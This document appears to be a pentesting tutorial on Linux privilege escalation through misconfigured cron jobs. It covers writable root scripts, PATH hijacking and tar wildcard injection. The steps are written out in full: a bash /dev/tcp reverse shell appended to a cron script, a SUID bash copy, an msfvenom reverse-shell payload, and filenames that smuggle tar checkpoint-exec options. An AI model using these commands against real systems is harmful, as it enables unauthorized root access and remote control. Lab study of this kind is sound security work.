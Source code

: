 # cron/crontab abuse

## Crontab <a href="top" id="top"></a>

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access.  cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges.  In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.



#### for example look for cron jobs with the following commands:   `grep "CRON" /var/log/cron.log >>> works best for unprivileged users` ` crontab -l` ` ls -alh /var/spool/cron` ` ls -al /etc/ | grep cron` ` ls -al /etc/cron*` ` cat /etc/cron*` ` cat /etc/at.allow` ` cat /etc/at.deny` ` cat /etc/cron.allow` ` cat /etc/cron.deny` ` cat /etc/crontab` ` cat /etc/anacrontab` ` cat /var/spool/cron/crontabs/root`

![](../../../.gitbook/assets/cron1.png)

when we find a file we check the permissions and content

![](../../../.gitbook/assets/cron2.png)



greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.



#### `` ` echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

![](../../../.gitbook/assets/cron3.png)

## PATH Environment Variable

\
&#x20;The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
&#x20;View the contents of the system-wide crontab:\


#### &#x20;`cat /etc/crontab`

&#x20;Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\


![](../../../.gitbook/assets/cron4.png)

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

![](../../../.gitbook/assets/cron5.png)

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### `` ` nano /home/user/overwrite.sh` ` #!/bin/bash` ` cp /bin/bash /tmp/rootbash` ` chmod +s /tmp/rootbash`

#### &#x20; Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell: 

#### `/tmp/rootbash -p`



![](../../../.gitbook/assets/cron6.png)

## Wildcards

\
&#x20;Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\


#### &#x20;`ls *` ` touch ./-l` ` ls *`



![](../../../.gitbook/assets/w1.png)

Filenames are not simply restricted to simple options like -h or --help.\
&#x20;In fact we can create filenames that match complex options:\


#### &#x20;`--option=key=value`



&#x20;[GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
&#x20;View the contents of the system-wide crontab:\


#### &#x20;`cat /etc/crontab`

![](../../../.gitbook/assets/w2.png)

View the contents of the /usr/local/bin/compress.sh file:\
\


#### &#x20;`$ cat /usr/local/bin/compress.sh` ` #!/bin/sh` ` cd /home/user` ` tar czf /tmp/backup.tar.gz *` `` ``

&#x20;Note that the tar command is run with a wildcard in the /home/user directory.\
&#x20;GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

![](../../../.gitbook/assets/w3.png)

Use msfvenom to create a reverse shell ELF payload:\


#### &#x20;`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
&#x20;Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\


#### &#x20;`touch /home/user/--checkpoint=1` ` touch /home/user/--checkpoint-action=exec=shell.elf` `` ``

&#x20;Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

![](../../../.gitbook/assets/w4.png)
